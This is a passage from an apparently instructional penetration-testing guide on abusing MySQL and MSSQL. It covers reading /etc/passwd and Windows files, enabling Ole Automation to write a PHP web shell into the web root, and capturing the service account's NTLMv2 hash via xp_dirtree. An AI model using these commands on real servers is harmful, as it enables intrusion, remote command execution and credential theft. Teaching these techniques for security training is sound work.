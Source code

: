 
```
show variables like "secure_file_priv";
```

### Read File

MySQL installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:

```
select LOAD_FILE("/etc/passwd");
```

## MSSQL

To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file:

```
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

### Create File

```
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

### Read File

By default, MSSQL allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:
```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

## Capture MSSQL Service Hash

In the Attacking SMB section, we discussed that we could create a fake SMB server to steal a hash and abuse some default implementation within a Windows operating system. We can also steal the MSSQL service account hash using xp_subdirs or xp_dirtree undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.
